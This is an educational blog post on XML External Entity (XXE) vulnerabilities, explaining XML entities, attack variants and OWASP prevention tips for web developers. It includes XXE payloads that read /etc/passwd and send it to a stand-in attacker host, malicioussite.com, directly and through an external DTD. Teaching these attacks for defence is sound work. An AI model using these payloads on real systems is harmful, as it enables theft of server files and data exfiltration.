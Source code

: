 ```yaml
---
layout: post
title: OWASP Top Ten - 4. XML External Entities (XXE)
tags: tech
description: 
thumbnail: /4-xml-external-entities/thumbnail.jpg
thumbnail-creator-link: https://unsplash.com/@florianolv
thumbnail-creator: Florian Olivo
thumbnail-site: https://unsplash.com/
thumbnail-site-name: Unsplash
image-alt: Picture of SVG and HTML code
date: 2020-12-11
---
```


Anywhere you use XML *(eXtensible Markup Language)*, you have the potential for XXE *(XML eXternal Entity)* vulnerabilities.

Let's talk about where XML could exist in your app, what XXE is and why it's a risk for your application, and possible ways to prevent it.

<!--more-->

---

_All examples of potential attacks in this article are for demonstration and educational purposes only. They should never be used outside of a lab environment or to harm other computers, users, etc._

---

## Where XML Is That You Might Not Realize
Before studying XXE attacks, I didn't give a second thought to XML. I would venture a guess to say that most web developers don't think about it much.

But XML is in various parts of our application that we might not realize.

It's commonly used in API endpoints. SOAP uses it exclusively, but modern APIs using JSON could also accept XML as well.

**Did you know that .pdf, .docx, .xslx, and .svg files all contain XML?** If you accept uploads of any of these files in your application, you could be susceptible to an XXE attack.

Once you start looking, you'll find XML in places you didn't expect. **And anywhere there's XML, there's the potential for XXE**.

So what is XXE and why should we, as web developers, care about it?

---

## What Is XXE?
By now you know that XXE stands for XML eXternal Entities, but what is an entity?

In an XML document, **an entity is kind of like a variable**. You can declare a custom entity within the XML document and output it in an element, like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY hello "Hello World">
]>
<item>&hello;</item>
```
Let's take this line by line.

1. The first line declares this an xml document, the version we're using, and how it's encoded.
2. The second line is called the DTD (Document Type Definition). This tells the parser what well-formed XML looks like for this document. In this line, we're also saying the root element of the document is 'root'.
3. The third line, while still in the DTD, is declaring one element, named 'item', that allows any combination of parsable data.
4. The fourth line, still in the DTD, is declaring one entity, named 'hello', that contains the text "Hello World".
5. The fifth line close the DTD.
6. The last line uses the `<item>` element and contains the `&hello;` entity.

The important part to understand here is that I've declared an entity. Anywhere it's displayed, the text "Hello World" will be output.

This functionality is what can be abused in XXE attacks.

For example, an attacker **could use this functionality to display the contents of local text files on the server**.

Let's pretend the XML file above is sent from a browser, to a server, over HTTP. It's unencrypted, so a MITM *(Monster-In-The-Middle)* could modify it to look something like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY hello SYSTEM "file:///etc/passwd">
]>
<item>&hello;</item>
```
Only the 4th line has changed, but now wherever the `&hello;` entity is displayed *(such as on a page, in an error, or in a log)*, **it will now show the contents of /etc/passwd**. Instead of passing in text, an attacker has added the SYSTEM keyword telling the XML parser to read the contents of `/etc/passwd` on this system and output it to the `&hello;` entity.

As you might guess, this is not a good situation.

You might be thinking, what if we don't display that entity ANYWHERE. An attacker can't get the contents of `&hello;` so we're safe.

What if I told you **an attacker could modify the XML to send the contents of `&hello;` *(everything in `/etc/passwd`)* to a server they control**?

To do that, they could modify the XML to look something like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY % hello SYSTEM "file:///etc/passwd">
	<!ENTITY sendtomysite SYSTEM "http://malicioussite.com/?%hello;">
]>
<item>&sendtomysite;</item>
```
Here, the attacker has modified the 4th line to include a % character before 'hello'. This tells the library that the entity will now be used within the DTD *(that's why on the 5th line you see `%hello;` instead of `&hello;`)*.

The 5th line has a new entity - **an external entity**. This line tells the parser that when `&sendtomysite;` is called, connect to `http://malicioussite.com` and attach the `%hello;` entity.

This means the `<item>` element doesn't have to be displayed anywhere. As long as it's processed, **the contents of `/etc/passwd` will be sent to `malicioussite.com` *(if external entities are enabled)***.

Yeah, that can suck. But maybe you only allow specifically formatted XML in your application or you block access to local files. If an attacker tried to inject into elements or directly read local server files, it wouldn't work.

Well, an attacker could try a different tactic - using **an external DTD**.

They'd need 2 files - the existing XML file *(like one inside a PDF or Word Doc)* and a second one controlled by the attacker.

The first file will be injected with the following code:
``` xml
<!DOCTYPE root [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % dtd SYSTEM "http://malicioussite.com/ext.dtd">
	%dtd;
	%send;
]>
```
The second file, ext.dtd, lives on the attacker's server. It looks something like this:
``` xml
<!ENTITY send SYSTEM "http://malicioussite.com/?%file;">
```
Let's step through what will happen here.
1. First, everything is located within the DTD *(thus all entities are prefaced with % characters)*.
2. `%dtd;` will be parsed first. It will retrieve the ext.dtd file from `malicioussite.com`.
3. This inserts the `%send;` entity into the DTD (making it look similar to the previous example).
4. Next, the `%send;` entity gets parsed. This causes the %file to get retrieved *(containing the contents of `/etc/passwd`)* and sent along to `malicioussite.com`. 

This example isn't perfect. There's a decent chance an attacker would need to base64 encode the `/etc/passwd` first, but the idea is the same. **They're creating external entities and using them to exfiltrate server data**.

### Further Reading:
- [More Examples of XXE attacks](https://cheatsheetseries.owasp.org/cheatsheets/XML_Security_Cheat_Sheet.html#xml-entity-expansion){:target="_blank"}

---

## XXE Risks
XXE can be difficult to understand if you don't understand how XML works and how your library will parse it by default. Essentially, **XXE attacks abuse that default behavior to include external entities *(controlled by the attacker)* and gain access to server-side resources**.

At a minimum, **this access allows an attacker to view sensitive server information**. At its worst, **it could be used to eventually launch RCE *(Remote Code Execution)* attacks**, which is very, very bad.

### Further Reading:
- [Learn More About XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing){:target="_blank"}
- [Testing for XML Injection *(can be used as an entry point to inject XXE)*](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection){:target="_blank"}

---

## Possible Ways To Help Prevent XXE
If you parse XML files in any way, and you aren't 100% certain about how your library does it, there is the potential for XXE vulnerabilities.

OWASP has [some good tips for prevention](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)){:target="_blank"}:
- Understand your XML library.
	- If needed, disable XML external entity and DTD processing.
	- Use the lastest XML libraries and keep them patched.
- Understand your endpoints.
	- Many APIs that use JSON will also allow XML. Since it's not expected, it's not always secured by default. Disable any alternative data formats.
- Use SAST tools to help find XXE vulnerabilities.

Like everything in security, this is a complex topic. **It can be difficult to fully understand and prevent it**.

Do your best, keep researching, and learn more to understand and help protect your application against this vulnerability.

### Further Reading
- [How to Prevent XXE](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)){:target="_blank"}
- [OWASP's XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html){:target="_blank"}